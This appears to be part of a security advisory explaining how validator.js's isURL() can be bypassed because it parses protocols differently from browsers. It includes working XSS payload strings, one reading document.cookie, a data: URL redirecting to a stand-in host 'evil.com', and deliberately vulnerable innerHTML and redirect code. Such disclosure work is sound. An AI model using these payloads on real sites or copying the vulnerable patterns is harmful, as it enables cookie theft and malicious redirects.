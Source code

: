 ### 1.2 Technical Description

The vulnerability exists in the `isURL()` function's protocol parsing logic:

```javascript
// VULNERABLE CODE (validator.js <= 13.15.15)
// Uses '://' as delimiter
function isURL(str) {
  const protocolIndex = str.indexOf('://');
  // ... validation logic
}
```

**The Problem:**
- `validator.js` splits on `://` to identify protocols
- Browsers split on `:` (WHATWG URL standard)
- This discrepancy allows bypass attacks

**Example Exploit:**
```javascript
// Bypasses validator.js but executes in browser
const maliciousUrl = 'javascript:alert(1)//https://example.com';

validator.isURL(maliciousUrl); // ❌ Returns TRUE (sees 'https://')
new URL(maliciousUrl).protocol; // ⚠️ Returns 'javascript:' (XSS!)
```

### 1.3 Attack Scenarios

**1. XSS (Cross-Site Scripting)**
```javascript
// Attacker input
const userUrl = 'javascript:alert(document.cookie)//https://trusted.com';

// Application validates with validator.js
if (validator.isURL(userUrl)) {
  // ❌ VULNERABLE: Inserts into DOM
  element.innerHTML = `<a href="${userUrl}">Click</a>`;
}
// User clicks → JavaScript executes → Cookies stolen
```

**2. Open Redirect**
```javascript
// Attacker crafts URL
const redirectUrl = 'data:text/html,<script>location="http://evil.com"</script>//https://example.com';

// Application validates and redirects
if (validator.isURL(redirectUrl)) {
  // ❌ VULNERABLE: Redirects to malicious site
  window.location = redirectUrl;
}
```
